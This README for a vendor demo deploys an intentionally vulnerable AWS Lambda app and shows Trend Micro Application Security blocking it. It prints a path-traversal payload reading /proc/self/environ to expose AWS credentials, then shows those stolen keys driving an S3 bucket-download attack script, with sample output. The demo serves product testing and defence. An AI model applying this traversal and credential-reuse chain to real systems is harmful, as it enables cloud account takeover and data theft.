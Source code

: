 # Cloud One Application Security - Severless demo

A demonstration of how Trend Micro's "Cloud One: [Application Security](https://cloudone.trendmicro.com/docs/application-security/introduction/)" solution can be used to protect serverless applications.

## Deployment

This demo uses a Lambda layer. Doing so enables Application Security to be used with numerous Lambdas with ease.

If you're creating the layer on your machine, please follow the _"Linux/Mac/Windows"_ instructions. Alternatively, if you're using EC2, please follow the _"EC2"_ instructions.  

### Lambda layer - Linux/Mac/Windows

See [this document](https://aws.amazon.com/premiumsupport/knowledge-center/lambda-layer-simulated-docker/) for more information.

```
cd /tmp
mkdir -p app-sec-layer/python/lib/python3.7/
cd app-sec-layer
echo "trend-app-protect" >> requirements.txt

docker run \
-v "$PWD":/var/task \
"lambci/lambda:build-python3.7" \
/bin/sh -c "pip install -r requirements.txt -t python/lib/python3.7/site-packages/; exit"

zip -r trend.zip python > /dev/null

aws lambda publish-layer-version \
--layer-name app-protect \
--description "Trend Micro Application Security" \
--zip-file fileb://trend.zip \
--compatible-runtime "python3.7"
```

### Lambda layer - EC2
    
```
mkdir /tmp/python
cd /tmp/python
pip3 install --target=/tmp/python trend-app-protect
cd ..
zip -r trend.zip python
aws lambda publish-layer-version \
    --layer-name app-protect \
    --description "App Protect" \
    --zip-file fileb://trend.zip \
    --compatible-runtimes python3.7
```

### Deploy app
 
1. Obtain the Layer ARN.
2. Create the CloudFormation stack:
 
     ```
    aws cloudformation create-stack \
    --stack-name ApplicationSecurityDemo \
    --template-body file://cfn.yaml \
    --parameters ParameterKey=ApplicationSecurityLayerArn,ParameterValue=<LAYER_ARN> \
    --capabilities CAPABILITY_IAM
    ```

## Attack the unprotected app

1. Obtain the app's URL:

    ```
    aws cloudformation describe-stacks --stack-name ApplicationSecurityDemo --query "Stacks[0].Outputs[?OutputKey=='AppUrl'].OutputValue" --output text    
    ```

2. Enter the following string into the form:

    ```
   ../../proc/self/environ
    ```
   
Among other things, the following values are shown:

* AWS_ACCESS_KEY_ID
* AWS_SECRET_ACCESS_KEY
* AWS_SESSION_TOKEN

These keys can be used by an attacker to access and control your AWS account. See the **"Exploitation Demo"** below for more information. 

## Protecting the app

1. Log into [Application Security.](https://dashboard.app-protect.trendmicro.com/)
2. Create a new "Group".
3. Set "Illegal File Access" to "**Mitigate**". 
4. Obtain the `Key` and `Secret` credentials.
5. Use these credentials to set the Lambda's `TREND_AP_KEY` and `TREND_AP_SECRET` API keys.
6. Try exploiting the app again:

    ```
   ../../proc/self/environ
    ```

## Exploitation Demo

In this section of the documentation we'll cover how the aforementioned keys can be used for nefarious purposes.

For the purposes of this demo, let's pretend the Lambda required S3 bucket access.  

1. Add the following policy to the Lambda's role:

    ```
    {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "VisualEditor0",
                "Effect": "Allow",
                "Action": [
                    "s3:GetObject",
                    "s3:ListAllMyBuckets",
                    "s3:ListBucket"
                ],
                "Resource": "*"
            }
        ]
    }
    ```

    **Note:** The above policy gives the script read access to **all buckets**. If you'd like to specify a specific bucket ARN, please do so.

2. Take the "stolen" keys and set them as environment variables:

    ```
    export AWS_ACCESS_KEY=<ACCESS_KEY>
    export AWS_SECRET_KEY=<SECRET_KEY>
    export AWS_SESSION_TOKEN=<SESSION_TOKEN> 
    ```

    Optional: Specify where you want the downloaded objects to be stored on your system:

    ```
    export BASE_DEST_DIR=<DIR_PATH> # defaults to /tmp/<bucket_name>
    ```

3. Navigate to the `code` directory. Execute the `attack_script.py` script with the name of a bucket or the `all` keyword.

    **Note:** Use caution when specifying the `all` keyword. It will cause the script to download all objects from all S3 buckets. 

### Example runs

Executing the script with the `super-secret-bucket-2812093901231` bucket name specified:

```
python3 attack_script.py super-secret-bucket-2812093901231
Checking if super-secret-bucket-2812093901231 exists...
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-1-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-2-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-3-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-4-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-5-data.txt

====================================================================================================
Successfully downloaded 5 files
```

Executing the script with the `all` keyword specified:

```
attack_script.py all
Found bucket: super-secret-bucket-2812093901231
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-1-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-2-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-3-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-4-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-5-data.txt

Found bucket: trendcontainerdemo-cicd-artifact-vhjlbmrdb250ywluzxjezw1vlunjq0
Downloading: /tmp/trendcontainerdemo-cicd-artifact-vhjlbmrdb250ywluzxjezw1vlunjq0/Trend-Container-Imag/AppCode/P38kz5n
Downloading: /tmp/trendcontainerdemo-cicd-artifact-vhjlbmrdb250ywluzxjezw1vlunjq0/Trend-Container-Imag/AppCode/bLjODwJ

====================================================================================================
Successfully downloaded 7 files
```
   
# Contact

* Blog: [oznetnerd.com](https://oznetnerd.com)
* Email: [will@oznetnerd.com](mailto:will@oznetnerd.com)
